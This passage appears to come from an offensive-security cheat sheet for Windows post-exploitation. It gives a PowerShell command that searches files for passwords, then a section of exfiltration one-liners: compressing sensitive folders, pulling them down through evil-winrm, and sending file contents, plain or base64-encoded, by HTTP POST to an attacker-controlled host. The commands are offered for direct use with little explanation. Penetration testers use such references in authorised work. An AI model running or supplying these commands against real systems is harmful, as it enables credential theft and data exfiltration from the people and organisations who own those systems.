 Find passwords in files

```sh
Select-String -Path C:\*.txt,C:\*.config -Pattern "password"
```

___




## Data Exfiltration

Extract and exfiltrate sensitive data from compromised systems

Compress and exfiltrate data

> [!example]-
>
> 1. Compress data
>
> ```sh
> Compress-Archive -Path C:\Sensitive\ -DestinationPath C:\Temp\data.zip
> ```
>
> 2. Download via [evil-winrm](https://github.com/Hackplayers/evil-winrm)
>
> ```sh
> download C:\Temp\data.zip
> ```

Exfiltrate via HTTP

> [!example]-
>
> ```sh
> $data = Get-Content C:\Sensitive\data.txt
> ```
> ```sh
> Invoke-WebRequest -Uri "http://attacker.com/collect" -Method POST -Body $data
> ```

Base64 encode and exfiltrate

> [!example]-
>
> ```sh
> $bytes = [System.IO.File]::ReadAllBytes("C:\Sensitive\file.exe")
> ```
> ```sh
> $base64 = [System.Convert]::ToBase64String($bytes)
> ```
> ```sh
> Invoke-WebRequest -Uri "http://attacker.com/collect" -Method POST -Body $base64
> ```
